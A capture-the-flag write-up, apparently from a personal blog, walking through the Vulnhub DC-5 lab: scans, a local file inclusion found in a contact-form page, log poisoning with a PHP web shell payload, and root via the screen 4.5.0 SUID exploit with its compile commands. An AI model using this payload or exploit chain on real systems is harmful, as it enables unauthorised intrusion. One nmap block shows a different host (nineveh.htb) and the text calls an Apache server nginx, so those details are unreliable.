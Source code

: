 ```yaml
---
"title": "Vulnhub - DC 5"
"date": 2019-11-19
"tags": ["easy", "lfi", "log-poisoning"]
"keywords": ["easy", "lfi", "log-poisoning"]
"categories": "Vulnhub"
"author": "Ghostbyt3"
"description": "Today, We are going to pwn DC 5 by DCAU7 from Vulnhub"
"featured_image": "/img/dc5/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Vulnhub - Writeup"
---
```



![Untitled](/img/dc5/1.png)
Today, We are going to pwn DC 5 by DCAU7 from Vulnhub


## Description
>DC-5 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
The plan was for DC-5 to kick it up a notch, so this might not be  great for beginners, but should be ok for people with intermediate or  better experience. Time will tell (as will feedback).
As far as I am aware, there is only one exploitable entry point to  get in (there is no SSH either). This particular entry point may be  quite hard to identify, but it is there. You need to look for something a  little out of the ordinary (something that changes with a refresh of a  page). This will hopefully provide some kind of idea as to what the  vulnerability might involve.
And just for the record, there is no phpmailer exploit involved. :-)
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer, instead, I'll give you an idea about how  to move forward.
But if you're really, really stuck, you can watch this video which shows the first step.

Download link: [https://www.vulnhub.com/entry/dc-5,314/](https://www.vulnhub.com/entry/dc-5,314/)

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
45669/tcp open  unknown
```

```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.9
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/27 17:30:35 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/27 17:30:36 Finished
===============================================================
```

Well gobuster didn’t find anything interesting.

Lets Check the webpage and nothing Interesting too.

![Untitled](/img/dc5/1.png)

But there is form in ``contact`` page.

![Untitled](/img/dc5/2.png)

So i filled some random datas and submitted

![Untitled](/img/dc5/3.png)

## Getting Shell

### Finding LFI

Once submitted it redirects to some new page with some kind of parameters. I think it is vulnerable to LFI (Local File Inclusion)
So lets test it.

![Untitled](/img/dc5/4.png)
Its Confirmed!!
Now all we need to do is get a reverse shell.

### LFI -> RCE
We know its running in nginx from nmap scans so we can do log poisoning.
For that we need to send a request

`` [?php system($_GET['cmd']); ](?php system($_GET['cmd']); )>``

Now its injected , we know log files of nginx located in ``/var/log/nginx/error.log``

![Untitled](/img/dc5/5.png)
For more info read this article:
>https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

We got the shell

![Untitled](/img/dc5/6.png)

## Privilege Escalation

I uploaded my Linux Enumeration Script and found SETUID file

![Untitled](/img/dc5/7.png)

>screen 4.5.0

Searchsploit shows me an exploit available

![Untitled](/img/dc5/8.png)

> [https://www.exploit-db.com/exploits/41154](https://www.exploit-db.com/exploits/41154)

I uploaded the script to the machine and tried running but i faced some error , so i split them into 3 parts

![Untitled](/img/dc5/9.png)

And did the same commands

```
gcc -fPIC -shared -ldl -o exploit.so exploit.c
gcc -o rootshell rootshell.c
```
Now I uploaded them

![Untitled](/img/dc5/10.png)

Run 411.sh

![Untitled](/img/dc5/11.png)

We got Root 

``Flag`` [br/](br/)
![Untitled](/img/dc5/13.png)

